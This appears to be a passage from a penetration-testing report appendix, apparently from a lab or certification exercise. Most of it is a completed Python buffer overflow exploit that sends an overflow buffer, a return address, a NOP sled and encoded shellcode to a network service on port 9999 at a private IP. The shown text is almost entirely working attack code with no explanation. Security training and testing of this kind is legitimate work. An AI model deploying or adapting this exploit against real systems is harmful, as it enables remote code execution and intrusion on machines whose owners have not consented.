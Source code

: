 ```python
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Appendix 3 - Completed Exploit Buffer Overflow Code 

```python
import socket

ip = "192.168.1.143"
port = 9999

prefix = ""
offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
payload = "\xdb\xd0\xbb\xac\x66\x48\xa0\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
payload += "\x52\x31\x5e\x17\x03\x5e\x17\x83\x42\x9a\xaa\x55\x66\x8b\xa9"
payload += "\x96\x96\x4c\xce\x1f\x73\x7d\xce\x44\xf0\x2e\xfe\x0f\x54\xc3"
payload += "\x75\x5d\x4c\x50\xfb\x4a\x63\xd1\xb6\xac\x4a\xe2\xeb\x8d\xcd"
payload += "\x60\xf6\xc1\x2d\x58\x39\x14\x2c\x9d\x24\xd5\x7c\x76\x22\x48"
payload += "\x90\xf3\x7e\x51\x1b\x4f\x6e\xd1\xf8\x18\x91\xf0\xaf\x13\xc8"
payload += "\xd2\x4e\xf7\x60\x5b\x48\x14\x4c\x15\xe3\xee\x3a\xa4\x25\x3f"
payload += "\xc2\x0b\x08\x8f\x31\x55\x4d\x28\xaa\x20\xa7\x4a\x57\x33\x7c"
payload += "\x30\x83\xb6\x66\x92\x40\x60\x42\x22\x84\xf7\x01\x28\x61\x73"
payload += "\x4d\x2d\x74\x50\xe6\x49\xfd\x57\x28\xd8\x45\x7c\xec\x80\x1e"
payload += "\x1d\xb5\x6c\xf0\x22\xa5\xce\xad\x86\xae\xe3\xba\xba\xed\x6b"
payload += "\x0e\xf7\x0d\x6c\x18\x80\x7e\x5e\x87\x3a\xe8\xd2\x40\xe5\xef"
payload += "\x15\x7b\x51\x7f\xe8\x84\xa2\x56\x2f\xd0\xf2\xc0\x86\x59\x99"
payload += "\x10\x26\x8c\x0e\x40\x88\x7f\xef\x30\x68\xd0\x87\x5a\x67\x0f"
payload += "\xb7\x65\xad\x38\x52\x9c\x26\x87\x0b\x9f\xe1\x6f\x4e\x9f\x0d"
payload += "\x20\xc7\x79\x67\xd0\x81\xd2\x10\x49\x88\xa8\x81\x96\x06\xd5"
payload += "\x82\x1d\xa5\x2a\x4c\xd6\xc0\x38\x39\x16\x9f\x62\xec\x29\x35"
payload += "\x0a\x72\xbb\xd2\xca\xfd\xa0\x4c\x9d\xaa\x17\x85\x4b\x47\x01"
payload += "\x3f\x69\x9a\xd7\x78\x29\x41\x24\x86\xb0\x04\x10\xac\xa2\xd0"
payload += "\x99\xe8\x96\x8c\xcf\xa6\x40\x6b\xa6\x08\x3a\x25\x15\xc3\xaa"
payload += "\xb0\x55\xd4\xac\xbc\xb3\xa2\x50\x0c\x6a\xf3\x6f\xa1\xfa\xf3"
payload += "\x08\xdf\x9a\xfc\xc3\x5b\xba\x1e\xc1\x91\x53\x87\x80\x1b\x3e"
payload += "\x38\x7f\x5f\x47\xbb\x75\x20\xbc\xa3\xfc\x25\xf8\x63\xed\x57"
payload += "\x91\x01\x11\xcb\x92\x03"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```